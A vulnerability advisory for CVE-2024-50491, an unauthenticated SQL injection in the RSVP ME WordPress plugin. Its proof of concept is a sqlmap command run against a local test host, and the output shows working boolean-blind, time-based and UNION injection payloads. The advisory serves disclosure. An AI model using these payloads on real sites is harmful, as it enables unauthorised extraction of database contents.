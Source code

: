 # CVE-2024-50491
RSVP ME <= 1.9.9 - Unauthenticated SQL Injection

# Description

The RSVP ME plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 1.9.9 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: rsvp-me
- **Affected Version**: 1.9.9
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-50491
- **Status**: Closed

POC
---

```
$ python3 sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin-ajax.php' --data='action=rsvp_me_event_data&id=154' --dbms='MySQL '
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:25:36 /2025-01-12/

[07:25:36] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7a185a1dabb...483e996397'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=rsvp_me_event_data&id=154 AND 3572=3572

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=rsvp_me_event_data&id=154 AND (SELECT 1261 FROM (SELECT(SLEEP(5)))YwBv)

    Type: UNION query
    Title: Generic UNION query (NULL) - 23 columns
    Payload: action=rsvp_me_event_data&id=-3481 UNION ALL SELECT CONCAT(0x7170787171,0x6953774e714b47695a61655a6772544779464c4e45707849647a4c78706f6d744e4e7067646c7463,0x717a627171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[07:25:38] [INFO] testing MySQL
[07:25:38] [INFO] confirming MySQL
[07:25:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59, PHP 8.2.21, PHP
back-end DBMS: MySQL >= 8.0.0
```
